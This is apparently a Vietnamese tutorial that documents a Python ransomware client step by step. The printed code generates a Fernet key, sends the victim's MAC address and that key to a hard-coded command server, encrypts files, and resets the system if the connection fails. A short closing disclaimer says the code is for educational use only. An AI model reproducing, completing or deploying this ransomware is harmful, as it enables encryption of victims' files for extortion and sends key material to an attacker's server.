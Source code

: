 # Hướng dẫn chi tiết Client 

Module Python này triển khai một ransomware đơn giản kết nối với máy chủ, mã hóa tệp và giải mã chúng bằng thuật toán mã hóa Fernet. Để sử dụng ransomware, trước tiên hãy nhập các Module cần thiết, bao gồm thời gian, tiện ích hệ thống, công cụ mã hóa và giao tiếp ổ cắm. Sau đó, định nghĩa lớp `Ransomware`, khởi tạo nó với máy chủ và cổng của máy chủ. Kết nối với máy chủ bằng phương pháp `ConnectServer`, phương pháp này cố gắng thiết lập kết nối và gửi thông tin hệ thống cùng với khóa mã hóa. Sau khi kết nối, bạn có thể mã hóa các tệp bằng phương pháp `Encrypted` và giải mã chúng bằng phương pháp `Decrypted`. Cuối cùng, khởi tạo lớp `Ransomware` và thực thi tập lệnh ransomware, đảm bảo rằng máy chủ và cổng của máy chủ được định cấu hình chính xác.

1. **Import the necessary modules**:
   ```python
   from time import sleep
   from modules.system import System
   from modules.encdec import Fernet, Encrypt, Decrypt
   from socket import socket, AF_INET, SOCK_STREAM
   ```
- Module Python này triển khai một ransomware đơn giản kết nối với máy chủ, mã hóa tệp và giải mã chúng bằng thuật toán mã hóa Fernet.

2. **Class Ransomware**:
    ```python
    def __init__(self, host: str, port: int) -> None:
        self.key = Fernet.generate_key()
        self.host = host
        self.port = port
        self.system: System = System()
        self.server: socket = socket(AF_INET, SOCK_STREAM)
        self.Private = Fernet(self.key)
    ```
- Tạo khóa mã hóa ngẫu nhiên, khởi tạo đối tượng `System`.
- Tạo một `socket` để giao tiếp và một thể hiện `Fernet` để mã hóa/giải mã.

    ```python
    def ConnectServer(self, connected = False) -> None:
        retries = 0
        while not connected and retries < 3:
            try:
                self.server.connect((self.host, self.port))
                self.server.sendall(f'{self.system.Mac()}|{self.key.decode("utf-8")}'.encode('utf-8'))
                connected = True
            except:
                retries += 1
                if retries < 3:
                    sleep(10)
                else:
                    System.reset()
            finally:
                self.server.close()
    ```
 - Phương thức `ConnectServer` cố gắng kết nối với máy chủ thông qua địa chỉ IP và cổng được cung cấp. Nếu không thể kết nối sau 3 lần thử, hệ thống sẽ được đặt lại.

    ```python
    def Encrypted(self):
        Encrypt(self.Private)
    
    def Decrypted(self):
        Decrypt(self.Private)
    ```
 - Phương thức `Encrypted` sẽ mã hóa dữ liệu sử dụng khóa riêng tư đã được tạo.
 - Phương thức `Decrypted` sẽ giải mã dữ liệu đã được mã hóa sử dụng cùng một khóa.
    
    ```python
    if __name__ == '__main__':
        bot = Ransomware('192.168.1.12', 19100)
        bot.ConnectServer()
        bot.Encrypted()
    ```
 - Khi khởi tạo một đối tượng `Ransomware`, bạn cần cung cấp địa chỉ IP (`host`) và cổng (`port`) của máy chủ mà bạn muốn kết nối đến.


**Lưu ý**: *Mã này chỉ nên được sử dụng cho mục đích học tập. Sử dụng nó để thực hiện các hoạt động phi pháp (như tấn công mạng) có thể dẫn đến hậu quả pháp lý nghiêm trọng. Luôn tuân thủ các quy định pháp lý khi sử dụng và phát triển mã nguồn mở.*